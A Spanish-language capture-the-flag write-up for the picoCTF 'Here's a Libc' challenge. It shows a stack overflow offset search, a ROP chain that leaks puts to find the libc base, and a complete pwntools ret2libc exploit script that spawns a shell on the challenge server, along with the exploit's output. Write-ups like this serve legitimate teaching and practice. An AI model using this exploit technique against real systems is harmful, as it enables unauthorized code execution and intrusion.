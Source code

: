 ```yaml
---
description: '#Ret2Libc'
---
```


# Here's a Libc

En este ejercicio se nos presenta un binario, un libc y un makefile.

```c
./vuln_patched         
WeLcOmE To mY EcHo sErVeR!
hola
HoLa
```

En este ejercicio nuestro objetivo es el siguiente:

1. Imprimir la dirección de libc
2. Llamar a system(“/bin/sh“)

El binario tiene una vulnerabilidad en la que no se ha limitado el buffer y podemos sobrescribir valores en el stack.

```c
./vuln_patched
WeLcOmE To mY EcHo sErVeR!
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999d
zsh: segmentation fault  ./vuln_patched
```

Vamos a encontrar el offset:

```c
cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

RSP  0x7fffffffdc08 ◂— 'raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'

pwndbg> cyclic -l 'raaaaaaa'
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

Vale, ahora que sabemos en que dirección está la dirección de retorno y tenemos control del RIP podemos intentar sacar la dirección base del libc.

Para esto podemos usar `puts` para hacer un leak de la dirección de `puts` y luego en nuestro `solve.py` poder calcular la base de libc:

```c
offset = 136

puts_plt = exe.plt['puts']
puts_got = exe.got['puts']
main_addr = exe.symbols['main']
pop_rdi = 0x00400913 # pop rdi; ret

payload1 = flat({
    offset: [
        pop_rdi,
        puts_got, // Dirección de puts
        puts_plt, // Dirección "cacheada" de puts
        main_addr // Dirección de Retorno
        ]
    })
    
leak = io.recvn(6)  // Hay que imprimirlo de esta forma porque la dirección tiene el byte 0a, que es un \n y la función recvline lo corta
leak = leak.ljust(8, b'\x00')
leak = u64(leak)
info(f'Leak: {hex(leak)}')
```

Con esto el programa nos imprime la dirección de puts en la libc:

```c
[*] Leak: 0x7ffff7880a30
```

Ahora que tenemos la dirección podemos hacerle a saber a pwntools cual es la dirección a la libc:

```python
libc.address = leak - libc.symbols['puts']
```

Ahora que hemos actualizado la dirección podemos hacer el script:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
b *{exe.plt['puts']}
continue
'''

def conn():
    if args.REMOTE:
        return remote("mercury.picoctf.net", 37289)
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r, gdbscript=gdb_script)
    return r

offset = 136

puts_plt = exe.plt['puts']
puts_got = exe.got['puts']
main_addr = exe.symbols['main']
pop_rdi = 0x00400913 # pop rdi; ret
ret = 0x0040052e

def main():

    payload1 = flat({
        offset: [
            pop_rdi,
            puts_got,
            puts_plt,
            main_addr
        ]
    })

    io = conn()
    io.sendlineafter(b'!', payload1)
    leak = io.recvlines(2)
    leak = io.recvn(6)
    leak = leak.ljust(8, b'\x00')
    leak = u64(leak)
    info(f'Leak: {hex(leak)}')
    info(f'Puts plt: {hex(puts_plt)}')
    info(f'Puts got: {hex(puts_got)}')
    
    libc.address = leak - libc.symbols['puts']

    info(f'Base del binario: {hex(libc.address)}')
    bin_sh = next(libc.search(b"/bin/sh"))
    
    payload2 = flat({
        offset: [
            ret,  # El Stack estaba desalineado
            pop_rdi,
            bin_sh,
            libc.symbols['system']
        ]
    })
    
    io.sendlineafter(b'!', payload2)
    io.interactive()

if __name__ == "__main__":
    main()

```

Funciona!

```c
   ~/Desktop/picoCTF/heres_a_libc ❯ python solve.py
[*] '/home/ub1cu0/Desktop/picoCTF/heres_a_libc/vuln_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
[+] Opening connection to mercury.picoctf.net on port 37289: Done
[*] Leak: 0x7f82d1bd6a30
[*] Puts plt: 0x400540
[*] Puts got: 0x601018
[*] Base del binario: 0x7f82d1b56000
[*] Switching to interactive mode

AaAaBaAaCaAaDaAaEaAaFaAaGaAaHaAaIaAaJaAaKaAaLaAaMaAaNaAaOaAaPaAaQaAaRaAaSaAaTaAaUaAaVaAaWaAaXaAaYaAazaabbaabcaabdaabeaabd$  
$ whoami
here-s-a-libc_1
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
```
